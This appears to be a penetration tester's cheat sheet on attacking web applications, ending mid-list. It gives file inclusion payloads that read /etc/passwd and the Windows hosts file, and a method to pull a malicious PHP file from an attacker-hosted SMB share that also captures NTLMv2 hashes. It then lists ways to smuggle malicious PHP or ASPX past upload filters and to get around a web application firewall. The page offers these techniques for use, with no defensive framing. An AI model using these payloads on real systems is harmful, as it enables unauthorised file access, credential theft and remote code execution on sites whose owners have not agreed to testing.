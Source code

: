 ```bash

domain.com/abc/?news=a

# try

?news=../../../../../../etc/passwd

?news=C:/Windows/System32/drivers/etc/hosts

# check for File inclusion esp if it is a Windows MAchine!

start up a impacket smbserver on your attacker

?page=//<attacker ip>/<share>/anything.txt

capture the NTLMv2 hash

# if hash cannot crack

then host a malicious php file and then smbserver again and then

?page=//<attacker ip>/<share>/evil.php

```
once you find some way to upload stuff, see if you can upload php or aspx files from your prepared Tools folders

## Bypassing File Upload filters

- try simple manipulation of the file extension. For e.g if php, try pHp or pHP.

- try other versions of it like php2, phtml etc

- rename your .php to the relevant file format such .pdf. Intercept the upload request and rename the file back to .php and forward. Might work.

- try appending the legit extension and see if it tricks the system. like abc.pdf.php or abc.php.pdf

- try appending the magic bytes to the malicious script to trick the system. To do this use burpsuite to intercept the upload and then add the magic bytes in the body.

- change the file format header to application/pdf to see if it fools the system
  
- if you have access to the file management system, usually deleting the .htaccess file will solve all your problems

- If there is a WAF in effect, you can intercept the request and add the following headers to the POST request:

From BurpSuite

https://portswigger.net/bappstore/ae2611da3bbc4687953a1f4ba6a4e04c

these following headers can be added to your request to attempt to bypass WAF.
